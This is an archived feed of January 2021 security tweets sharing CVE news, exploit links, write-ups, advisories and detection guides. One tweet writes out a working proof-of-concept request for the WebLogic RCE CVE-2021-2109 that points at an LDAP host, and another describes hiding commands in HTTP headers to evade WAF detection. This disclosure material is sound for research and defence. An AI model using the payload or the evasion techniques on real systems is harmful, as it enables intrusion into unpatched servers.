# Securityblog
**https://twitter.com/Securityblog/status/1355830993928777729 _at 2021-01-31, 10:51:13_**
<blockquote>
poc of CVE-2020-4888 IBM Qradar siem deserialization to rce · GitHub https://t.co/9CvMi6SJil
</blockquote>

* https://gist.github.com/testanull/e9ba06d0c0c403402f6941fe2dbb868a

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>109</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1355601224674942976 _at 2021-01-30, 19:38:12_**
<blockquote>
Poc RCE Opentsdb (CVE-2020-35476) 🔥🔥

Refrence:https://t.co/ZaJWQ8CUsD https://t.co/Pfl2icA65a
</blockquote>

* https://github.com/OpenTSDB/opentsdb/issues/2051

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>70</code></td>
<td>Favorites: <code>186</code></td>
</tr></table>

---

# r4j0x00
**https://twitter.com/r4j0x00/status/1355489323794108417 _at 2021-01-30, 12:13:33_**
<blockquote>
My exploit for sudo CVE-2021-3156 that ACTUALLY works. Tested on ubuntu 18.04 and 20.04.
https://t.co/d6pE5dVBWJ https://t.co/7KhsRjy24s
</blockquote>

* https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>23</code></td>
<td>Replies: <code>26</code></td>
<td>Retweets: <code>502</code></td>
<td>Favorites: <code>1471</code></td>
</tr></table>

---

# gf_256
**https://twitter.com/gf_256/status/1355299098543452160 _at 2021-01-29, 23:37:39_**
<blockquote>
After 3 days of non-stop debugging, I am proud to announce my exploit PoC for CVE-2021-3156 (sudo heap overflow) still does not work.
</blockquote>

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>457</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1355149186073825286 _at 2021-01-29, 13:41:58_**
<blockquote>
How to detect sudo’s CVE-2021-3156 using Falco : https://t.co/N0k0KVZRKo 

falco : Cloud Native Runtime Security : https://t.co/j9e8p9QMH5

Detecting malware dk86 with Falco and Sysdig : https://t.co/WXqhto4Spb credits @sysdig
</blockquote>

* https://sysdig.com/blog/cve-2021-3156-sudo-falco/
* https://github.com/falcosecurity/falco
* https://sysdig.com/blog/rinbot-discord-bot-crypto-miner/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>66</code></td>
</tr></table>

---

# spoofyroot
**https://twitter.com/spoofyroot/status/1354863719692390401 _at 2021-01-28, 18:47:37_**
<blockquote>
let's assume @pwn_expoit is right and they used CVE-2020-15994 as part of their exploit chain.  I reported the bug in August and at the time it was clear the issue existed in the code for some time, at least through Chrome 78 (2019)
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---

# pyn3rd
**https://twitter.com/pyn3rd/status/1354368489553686533 _at 2021-01-27, 09:59:45_**
<blockquote>
#CVE-2021-2109 Weblogic Server Remote Code Execution involving JNDI, another gadget.

1. Hide Command in HTTP Request Header to evade WAF detection.

2. Retrieve positive information from HTTP Response to make sure the vulnerability exists. https://t.co/i9BpimfIDt
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>89</code></td>
<td>Favorites: <code>276</code></td>
</tr></table>

---

# rayh4c
**https://twitter.com/rayh4c/status/1354355884302897155 _at 2021-01-27, 09:09:40_**
<blockquote>
The attacker may post a paper on the Blog to analyze the 0day(CVE-2020-15994) vulnerability used by himself! https://t.co/yJLW0rZuBG
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>87</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1354245732157546502 _at 2021-01-27, 01:51:57_**
<blockquote>
Heap-based buffer overflow in Sudo (CVE-2021-3156) - obtained full root privileges on Ubuntu 20.04 (Sudo 1.8.31), Debian 10 (Sudo 1.8.27), and Fedora 33 (Sudo 1.9.2) : https://t.co/QgXtc5TECP

Demo : https://t.co/zJvY9zSKZO

More : https://t.co/bHFuUrCbgG
</blockquote>

* https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
* https://vimeo.com/504872555
* https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>54</code></td>
<td>Favorites: <code>71</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1353565699864633344 _at 2021-01-25, 04:49:45_**
<blockquote>
#Oracle WebLogic Server RCE (CVE-2021-2109)

[PoC]
GET /console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&amp;_nfpb=true&amp;JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(-ldap://192.168.0;[Semicolon]👈10:1389/5r5mu7;AdminServer-)

https://t.co/S875IxhzFa https://t.co/h2REYhG9Yj
</blockquote>

* http://packetstormsecurity.com/files/161053/Oracle-WebLogic-Server-14.1.1.0-Remote-Code-Execution.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>111</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1353458688942432262 _at 2021-01-24, 21:44:32_**
<blockquote>
Mass scanning activity detected from 81.218.45.224 (🇮🇱) targeting Fortinet VPN servers vulnerable to unauthenticated arbitrary file read (CVE-2018-13379) leading to disclosure of usernames and passwords in plaintext. #threatintel https://t.co/9HCNq52ypj
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>54</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1353418716915003397 _at 2021-01-24, 19:05:42_**
<blockquote>
Here's a PoC to exploit missing authentication checks (CVE-2020-6207) in SAP EEM servlet, leading to RCE on SAP SMDAgents connected to SAP Solution Manager.

https://t.co/rnLkFDemrd

via @_chipik https://t.co/ZS6rLMBjnL
</blockquote>

* https://github.com/chipik/SAP_EEM_CVE-2020-6207/blob/main/README.md

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---

# vahidnameni
**https://twitter.com/vahidnameni/status/1353368870908616705 _at 2021-01-24, 15:47:37_**
<blockquote>
اگر از #لاراول نسخه 8.4.3 پایین تر استفاده می کنید و Debug روشن است به خاطر استفاده نادرست لاراول از file_get_contents() و file_put_contents() هکر می تواند به سرور شما دسترسی پیدا کند!
برای رفع کافیست به آخرین نسخه لاراول ارتقا انجام شود.
کد: CVE-2021-3129
https://t.co/go3lWSLqq6
</blockquote>

* https://github.com/SNCKER/CVE-2021-3129

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1353238102354108418 _at 2021-01-24, 07:08:00_**
<blockquote>
TL;DR: This is the story of how a researcher found and exploited CVE-2020-168751, a remote code execution vulnerability in Exchange Online and bypassed two different patches for the vulnerability

https://t.co/sgjl0nzV3i https://t.co/vtCz791E4j
</blockquote>

* https://srcincite.io/blog/2021/01/12/making-clouds-rain-rce-in-office-365.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>149</code></td>
<td>Favorites: <code>422</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1352186676655890432 _at 2021-01-21, 09:30:00_**
<blockquote>
Write-up on CVE-2020-8558, aka Bad Pods, a Kubernetes pod privilege escalation

https://t.co/wHrlkAU8S3

PoC here: https://t.co/unzotLOZJJ https://t.co/YmvzriZFZj
</blockquote>

* https://labs.bishopfox.com/tech-blog/bad-pods-kubernetes-pod-privilege-escalation
* https://github.com/tabbysable/POC-2020-8558

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---

# z0x55g
**https://twitter.com/z0x55g/status/1351868447781695488 _at 2021-01-20, 12:25:29_**
<blockquote>
WebAssembly Engine Is a Good Attack Surface for Chrome

My first post for 2021:  https://t.co/4ZqDMKK9xZ

A detailed write-up for exploiting CVE-2020-15994 Chrome WebAssembly UAF vulnerability

#chrome #exploit #security #vulnerability
</blockquote>

* https://blog.br0vvnn.io/pages/blogpost.aspx?id=5

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>129</code></td>
<td>Favorites: <code>317</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1351538678724640770 _at 2021-01-19, 14:35:06_**
<blockquote>
Exploiting CVE-2014-3153 (Towelroot) : https://t.co/9KUktVw5zy credits @elongli https://t.co/AeRpKFhRMG
</blockquote>

* https://elongl.github.io/exploitation/2021/01/08/cve-2014-3153.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>47</code></td>
</tr></table>

---

# ehakkus
**https://twitter.com/ehakkus/status/1351092000511184897 _at 2021-01-18, 09:00:09_**
<blockquote>
(CVE-2021-3113) Authentication Bypass and Root User Add #0day that I discovered during the penetration test in Netsia SEBA+ is now public.The #vulnerability can be exploited with the #metasploit auxiliary module I prepared. Details on my personal blog https://t.co/bxTR1Upr1Z https://t.co/Y2WL1g8U1i
</blockquote>

* https://bit.ly/2N65StI

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>78</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1350559265631571974 _at 2021-01-16, 21:43:15_**
<blockquote>
Ongoing mass scanning activity detected from 185.191.32.178 (🇷🇺) targeting Fortinet VPN servers vulnerable to unauthenticated arbitrary file read (CVE-2018-13379) leading to disclosure of usernames and passwords in plaintext. #threatintel https://t.co/krXuIpLYGG
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1350103523053232131 _at 2021-01-15, 15:32:18_**
<blockquote>
Weblogic Remote Code Execution Exploiting CVE-2019-2725 https://t.co/8a62AvkNpA  #Pentesting #WebSecurity #RCE #Exploit #Infosec https://t.co/gSmm8EChcp
</blockquote>

* https://blog.cybercastle.io/weblogic-remote-code-execution-exploiting-cve-2019-2725/

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>111</code></td>
</tr></table>

---

# thezdi
**https://twitter.com/thezdi/status/1349767878720028679 _at 2021-01-14, 17:18:34_**
<blockquote>
Just published: 5 advisories in #SolarWinds, including 2 RCE bugs fixed in CVE-2020-14005, which has been publicly linked with #SunBurst. Other bugs are privilege escalation, info disclosure, and arbitrary file creation. https://t.co/LnQUrpwkLS
</blockquote>

* https://www.zerodayinitiative.com/advisories/published/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>94</code></td>
</tr></table>

---

# _chipik
**https://twitter.com/_chipik/status/1349713193443209216 _at 2021-01-14, 13:41:16_**
<blockquote>
RCE PoC for CVE-2020-6207 (Missing Authentication Check in SAP Solution Manager)

https://t.co/PVg72190wM https://t.co/enoqzKEVTv
</blockquote>

* https://github.com/chipik/SAP_EEM_CVE-2020-6207

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>85</code></td>
<td>Favorites: <code>185</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1349222849362317313 _at 2021-01-13, 05:12:49_**
<blockquote>
~~ Patch Tuesday, Jan 2021 ~~

#Microsoft releases Windows updates to patch a total of 83 newly discovered security flaws, including an actively exploited zero-day RCE #vulnerability affecting Defender (CVE-2021-1647) application.

https://t.co/IuW3s7ubiF

#infosec #cybersecurity
</blockquote>

* https://thehackernews.com/2021/01/microsoft-issues-patches-for-defender.html

<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>147</code></td>
<td>Favorites: <code>196</code></td>
</tr></table>

---

# jfslowik
**https://twitter.com/jfslowik/status/1349120985195106304 _at 2021-01-12, 22:28:02_**
<blockquote>
Hey, for CVE-2021-1647 - I thought if a product auto-updates Microsoft doesn't deem that worth a CVE???

https://t.co/qPoH8QI2zn
</blockquote>

* https://thehackernews.com/2020/12/zero-click-wormable-rce-vulnerability.html#:~:text=Zero%2DClick%20Wormable%20RCE%20Vulnerability%20Reported%20in%20Microsoft%20Teams,-%EE%A0%82December%2007&text=Microsoft%20did%20not%20assign%20a,automatically%20updates%20without%20user's%20interaction.%22

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---

# maddiestone
**https://twitter.com/maddiestone/status/1349085464754409472 _at 2021-01-12, 20:06:54_**
<blockquote>
One 0-day from today's Microsoft Patch Tuesday is marked as exploited in the wild: CVE-2021-1647, a RCE in Microsoft Defender. https://t.co/Nnz5z0kCun
</blockquote>

* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1647

<table><tr>
<td>Quotes: <code>14</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>164</code></td>
<td>Favorites: <code>323</code></td>
</tr></table>

---

# buherator
**https://twitter.com/buherator/status/1349064159464448000 _at 2021-01-12, 18:42:14_**
<blockquote>
CVE-2021-1647 - Windows Defender RCE

Vector: Local
Exploitation Assessment: Exploitation detected

https://t.co/LHw2SdR2Lt
</blockquote>

* https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-1647

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>185</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1349058761370071041 _at 2021-01-12, 18:20:47_**
<blockquote>
A story on how I gained RCE against Microsoft Exchange Online using CVE-2020-16875 and bypassed their patches twice over. Latest patch bypass is unpatched against on-premise deployments!

Making Clouds Rain - Remote Code Execution in Microsoft Office 365: https://t.co/HqVQTRCYF6
</blockquote>

* https://srcincite.io/blog/2021/01/12/making-clouds-rain-rce-in-office-365.html

<table><tr>
<td>Quotes: <code>17</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>388</code></td>
<td>Favorites: <code>841</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1349058436907073536 _at 2021-01-12, 18:19:30_**
<blockquote>
Microsoft fixes Windows Defender zero-day in January 2021 Patch Tuesday (CVE-2021-1647)

-82 other bugs also fixed this month
-this includes a patch for CVE-2021-1648, a Windows EoP bug disclosed by ZDI last month

https://t.co/wnP0fML0zO https://t.co/Q13Q9OLWBG
</blockquote>

* https://www.zdnet.com/article/microsoft-fixes-defender-zero-day-in-january-2021-patch-tuesday/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---

# tekwizz123
**https://twitter.com/tekwizz123/status/1348857992695963649 _at 2021-01-12, 05:03:00_**
<blockquote>
Metasploit module for CVE-2020-17136 has now been landed. Allows for LPE on Windows 10 1803 and later. Features a (as far as I am aware) new DLL hijack that I found using the healthapi.dll DLL and the Microsoft Storage Spaces SMP service https://t.co/AGCKoxNKB7
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/14585

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>54</code></td>
<td>Favorites: <code>123</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1348672721790541824 _at 2021-01-11, 16:46:48_**
<blockquote>
Zerologon : Instantly Become Domain Admin by Subverting Netlogon Cryptography (CVE-2020-1472) : https://t.co/BgyDYgJgda 

More --&gt; Understanding &amp; Exploiting Zerologon : https://t.co/p28eWUjlzu
</blockquote>

* https://www.secura.com/uploads/whitepapers/Zerologon.pdf
* https://www.exploit-db.com/docs/49368

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---

# CodeColorist
**https://twitter.com/CodeColorist/status/1348174280836583434 _at 2021-01-10, 07:46:11_**
<blockquote>
In case you are looking for it, here's the sandbox escape PoC for CVE-2020-9979 (patched before macOS 10.15 dev)
https://t.co/ca0YJFtPi6 It won't compile because the WebKit exploit and shellcode MachO loader are not included
</blockquote>

* https://github.com/ChiChou/sploits/tree/master/CVE-2020-9979

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1347929059322441729 _at 2021-01-09, 15:31:45_**
<blockquote>
CVE-2020-11851 Remote Code Execution vulnerability on ArcSight Logger  https://t.co/TaASz7HhXO #Pentesting #RCE #Vulnerability #CyberSecurity #Infosec https://t.co/HQjZwFRIcS
</blockquote>

